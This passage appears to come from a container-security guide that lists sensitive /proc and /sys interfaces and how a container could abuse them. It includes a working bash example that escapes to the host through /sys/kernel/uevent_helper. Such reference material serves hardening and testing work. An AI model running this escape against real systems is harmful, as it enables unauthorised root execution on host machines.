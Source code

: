 ### **`/proc/mem`**
   - Alternate interface for `/dev/mem`, representing physical memory.
   - Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

### **`/proc/sched_debug`**
   - Returns process scheduling information, bypassing PID namespace protections.
   - Exposes process names, IDs, and cgroup identifiers.

### **`/proc/[pid]/mountinfo`**
   - Provides information about mount points in the process's mount namespace.
   - Exposes the location of the container `rootfs` or image.

## `/sys` Vulnerabilities

### **`/sys/kernel/uevent_helper`**
   - Used for handling kernel device `uevents`.
   - Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
   - **Example for Exploitation**:
     %%%bash
     # Creates a payload
     echo "#!/bin/sh" > /evil-helper
     echo "ps > /output" >> /evil-helper
     chmod +x /evil-helper
     # Finds host path from OverlayFS mount for container
     host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
     # Sets uevent_helper to malicious helper
     echo "$host_path/evil-helper" > /sys/kernel/uevent_helper
     # Triggers a uevent
     echo change > /sys/class/mem/null/uevent
     # Reads the output
     cat /output
     %%%

### **`/sys/class/thermal`**
   - Controls temperature settings, potentially causing DoS attacks or physical damage.

### **`/sys/kernel/vmcoreinfo`**
   - Leaks kernel addresses, potentially compromising KASLR.

### **`/sys/kernel/security`**
   - Houses `securityfs` interface, allowing configuration of Linux Security Modules like AppArmor.
   - Access might enable a container to disable its MAC system.
